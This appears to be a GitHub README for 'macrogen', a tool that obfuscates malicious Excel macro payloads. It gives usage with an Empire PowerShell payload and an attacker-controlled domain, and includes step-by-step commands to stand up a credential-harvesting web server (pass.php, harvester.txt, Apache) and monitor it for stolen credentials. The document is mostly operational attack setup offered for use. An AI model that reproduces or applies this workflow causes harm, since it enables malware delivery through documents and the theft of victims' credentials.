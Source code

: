 # macrogen
<b>Microsoft Excel macro payload obfuscation generator</b>
</br>Usage: python macrogen.py [path to base64 encoded powershell payload] [attacker controlled domain name or external IP]
</br>
</br><b>Create the payload in Empire PowerShell</b>
</br>Remove "powershell.exe -NoP -NonI -W Hidden -Enc" from the payload created by Empire and save to a file.
</br>
</br><b>Copy pass.php and create harvester.txt in /var/www/html</b>
</br>cp pass.php /var/www/html/
</br>touch /var/www/html/harvester.txt
</br>
</br><b>Change ownership and permissions on harvester.txt and pass.php</b>
</br>chmod 755 /var/www/html/harvester.txt 
</br>chmod 755 /var/www/html/pass.php
</br>chown www-data:www-data /var/www/html/harvester.txt
</br>chown www-data:www-data /var/www/html/pass.php
</br>
</br><b>Start Apache on TCP port 80</b>
</br>service apache2 start
</br>
</br><b>Monitor the harvester.txt file for creds</b>
</br>tail -f /var/www/html/harvester.txt
</br>
